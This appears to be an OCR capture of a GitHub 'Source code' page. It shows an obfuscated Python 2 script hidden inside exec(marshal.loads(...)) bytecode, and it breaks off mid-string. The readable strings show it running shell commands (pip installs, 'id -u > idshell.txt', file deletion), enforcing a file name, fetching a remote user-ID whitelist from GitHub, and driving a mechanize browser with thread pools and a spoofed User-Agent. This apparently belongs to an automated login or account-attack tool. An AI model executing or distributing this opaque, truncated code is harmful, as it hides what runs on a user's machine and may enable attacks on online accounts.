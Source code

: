 exec(marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00@\x00\x00\x00sC\x03\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00\x01e\x00\x00j\x01\x00d\x03\x00\x83\x01\x00\x01e\x00\x00j\x01\x00d\x04\x00\x83\x01\x00\x01d\x00\x00d\x01\x00l\x02\x00Z\x02\x00d\x00\x00d\x01\x00l\x03\x00Z\x03\x00d\x00\x00d\x01\x00l\x04\x00Z\x04\x00d\x00\x00d\x01\x00l\x05\x00Z\x05\x00d\x00\x00d\x01\x00l\x06\x00Z\x06\x00d\x00\x00d\x01\x00l\x07\x00Z\x07\x00d\x00\x00d\x01\x00l\x08\x00Z\x08\x00d\x00\x00d\x01\x00l\t\x00Z\t\x00d\x00\x00d\x01\x00l\n\x00Z\n\x00d\x00\x00d\x01\x00l\x0b\x00Z\x0b\x00d\x00\x00d\x01\x00l\x0c\x00Z\x0c\x00d\x00\x00d\x01\x00l\r\x00Z\r\x00d\x00\x00d\x05\x00l\x0e\x00m\x0f\x00Z\x0f\x00\x01d\x00\x00d\x06\x00l\x10\x00m\x11\x00Z\x11\x00\x01d\x00\x00d\x07\x00l\r\x00m\x12\x00Z\x12\x00\x01e\x13\x00d\x08\x00d\t\x00\x83\x02\x00Z\x14\x00e\x14\x00Z\x15\x00e\x15\x00j\x16\x00GHe\x00\x00j\x01\x00d\x04\x00\x83\x01\x00\x01d\x08\x00e\x15\x00j\x16\x00k\x02\x00rX\x01d\x08\x00e\x15\x00j\x16\x00k\x02\x00rC\x01d\n\x00GHn\x12\x00d\x0b\x00GHe\x00\x00j\x02\x00j\x17\x00\x83\x00\x00\x01n\x00\x00d\x0c\x00GHe\x00\x00j\x01\x00d\x04\x00\x83\x01\x00\x01e\x00\x00j\x01\x00d\r\x00\x83\x01\x00\x01e\x00\x00j\x01\x00d\x0e\x00\x83\x01\x00\x01e\x13\x00d\x0f\x00d\t\x00\x83\x02\x00Z\x18\x00x\x1a\x00e\x18\x00D]\x12\x00Z\x19\x00e\x19\x00j\x1a\x00\x83\x00\x00Z\x1b\x00q\x9a\x01We\x0c\x00j\x1c\x00d\x10\x00\x83\x01\x00Z\x1d\x00e\x1d\x00j\x1e\x00Z\x1f\x00e \x00e\x02\x00\x83\x01\x00\x01e\x02\x00j!\x00d\x11\x00\x83\x01\x00\x01e\r\x00j\x12\x00\x83\x00\x00Z"\x00e"\x00j#\x00e$\x00\x83\x01\x00\x01e"\x00j%\x00e\r\x00j&\x00j\'\x00\x83\x00\x00d\x12\x00d\x13\x00\x83\x01\x01\x01d\x14\x00d\x15\x00f\x02\x00g\x01\x00e"\x00_(\x00d\x16\x00\x84\x00\x00Z)\x00d\x17\x00\x84\x00\x00Z*\x00d\x18\x00\x84\x00\x00Z+\x00d\x19\x00\x84\x00\x00Z,\x00d\x1a\x00Z-\x00d\x1b\x00\x84\x00\x00Z.\x00d\x1c\x00Z/\x00g\x00\x00Z0\x00g\x00\x00a1\x00g\x00\x00a2\x00g\x00\x00Z3\x00g\x00\x00Z4\x00d\x1d\x00Z5\x00d\x1e\x00Z6\x00e\x00\x00j\x01\x00d\x04\x00\x83\x01\x00\x01d\x1f\x00\x84\x00\x00Z7\x00d \x00\x84\x00\x00Z8\x00d!\x00\x84\x00\x00Z9\x00d"\x00\x84\x00\x00Z:\x00d#\x00\x84\x00\x00Z;\x00xy\x00e\x1f\x00j\x1a\x00\x83\x00\x00D]4\x00Z<\x00e<\x00GHe<\x00e\x1b\x00d\x1c\x00\x19k\x02\x00r\x04\x03e=\x00d$\x00k\x02\x00r\x01\x03e7\x00\x83\x00\x00\x01n\x00\x00n\x00\x00q\xd0\x02We\x00\x00j\x01\x00d\x04\x00\x83\x01\x00\x01d%\x00Z>\x00d&\x00GHe>\x00GHd\'\x00e\x1b\x00d\x1c\x00\x19\x17GHe\x00\x00j\x02\x00j\x17\x00\x83\x00\x00\x01d\x01\x00S((\x00\x00\x00i\xff\xff\xff\xffNs\x15\x00\x00\x00pip2 install requestss\x16\x00\x00\x00pip2 install mechanizet\x05\x00\x00\x00clear(\x01\x00\x00\x00t\n\x00\x00\x00ThreadPool(\x01\x00\x00\x00t\x0f\x00\x00\x00ConnectionError(\x01\x00\x00\x00t\x07\x00\x00\x00Browsers\t\x00\x00\x00sh4hom.pyt\x01\x00\x00\x00rt\x04\x00\x00\x00GOODs(\x00\x00\x00change name of file to my name sh4hom.pyt\x01\x00\x00\x00 s\x13\x00\x00\x00rm -rif idshell.txts\x13\x00\x00\x00id -u > idshell.txts\x0b\x00\x00\x00idshell.txts?\x00\x00\x00https://raw.githubusercontent.com/kakroot/listID/SHELL/list.txtt\x04\x00\x00\x00utf8t\x08\x00\x00\x00max_timei\x01\x00\x00\x00s\n\x00\x00\x00User-Agents\x84\x00\x00\x00Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36